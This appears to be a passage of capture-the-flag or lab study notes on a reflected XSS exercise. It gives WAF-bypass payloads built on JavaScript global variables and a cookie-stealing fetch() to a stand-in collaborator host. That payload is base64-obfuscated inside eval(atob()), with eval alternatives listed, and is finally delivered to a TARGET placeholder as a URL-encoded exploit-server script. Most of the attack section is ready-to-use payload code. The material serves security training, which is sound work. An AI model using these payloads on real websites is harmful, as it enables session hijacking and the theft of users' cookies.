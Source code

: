 >WAF is preventing dangerous search filters and tags, then we bypass WAF filters using JavaScript global variables.  

```JavaScript
"-alert(window["document"]["cookie"])-"
"-window["alert"](window["document"]["cookie"])-"
"-self["alert"](self["document"]["cookie"])-"
```  

[secjuice: Bypass XSS filters using JavaScript global variables](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/)  

>Below is the main cookie stealer payload before BASE 64 encoding it.  

```JavaScript
fetch(`https://COLLABORATOR.com/?jsonc=` + window["document"]["cookie"])
```  

>Next is encode payload using [Base64 encoded](https://www.base64encode.org/) value of the above cookie stealer payload.  

```
ZmV0Y2goYGh0dHBzOi8vNHo0YWdlMHlwYjV3b2I5cDYxeXBwdTEzdnUxbHBiZDAub2FzdGlmeS5jb20vP2pzb25jPWAgKyB3aW5kb3dbImRvY3VtZW50Il1bImNvb2tpZSJdKQ==
```  

>Test payload on our own session cookie in Search function.  

```JavaScript
"-eval(atob("ZmV0Y2goYGh0dHBzOi8vNHo0YWdlMHlwYjV3b2I5cDYxeXBwdTEzdnUxbHBiZDAub2FzdGlmeS5jb20vP2pzb25jPWAgKyB3aW5kb3dbImRvY3VtZW50Il1bImNvb2tpZSJdKQ=="))-"
```  

>Unpacking above payload assembly stages:  

+ Using the **eval()** method evaluates or executes an argument. 
+ Using **atob()** or **btoa()** is function used for encoding to and from base64 format strings.
+ If **eval()** being blocked then Alternatives:
  + setTimeout("code")
  + setInterval("code)
  + setImmediate("code")
  + Function("code")()
  
>This image shows Burp Collaborator receiving the my cookie value as proof of concept before setting up payload to `Deliver exploit to victim`.  

![Burp collaborator receiving request with base64 cookie value from our POC.](images/xss2.png)  

>[URL Encode](https://www.urlencoder.org/) all characters in this payload and use as the value of the `/?SearchTerm=` parameter.  

```html
"-eval(atob("ZmV0Y2goYGh0dHBzOi8vNHo0YWdlMHlwYjV3b2I5cDYxeXBwdTEzdnUxbHBiZDAub2FzdGlmeS5jb20vP2pzb25jPWAgKyB3aW5kb3dbImRvY3VtZW50Il1bImNvb2tpZSJdKQ=="))-"
```  

>Hosting the `IFRAME` on exploit server, give a **error** message refused to connect to target. Instead host the payload on exploit server between `<script>` tags.  

```html
<script>
location = "https://TARGET.net/?SearchTerm=%22%2d%65%76%61%6c%28%61%74%6f%62%28%22%5a%6d%56%30%59%32%67%6f%59%47%68%30%64%48%42%7a%4f%69%38%76%4e%48%6f%30%59%57%64%6c%4d%48%6c%77%59%6a%56%33%62%32%49%35%63%44%59%78%65%58%42%77%64%54%45%7a%64%6e%55%78%62%48%42%69%5a%44%41%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%76%50%32%70%7a%62%32%35%6a%50%57%41%67%4b%79%42%33%61%57%35%6b%62%33%64%62%49%6d%52%76%59%33%56%74%5a%57%35%30%49%6c%31%62%49%6d%4e%76%62%32%74%70%5a%53%4a%64%4b%51%3d%3d%22%29%29%2d%22"
</script>
```  
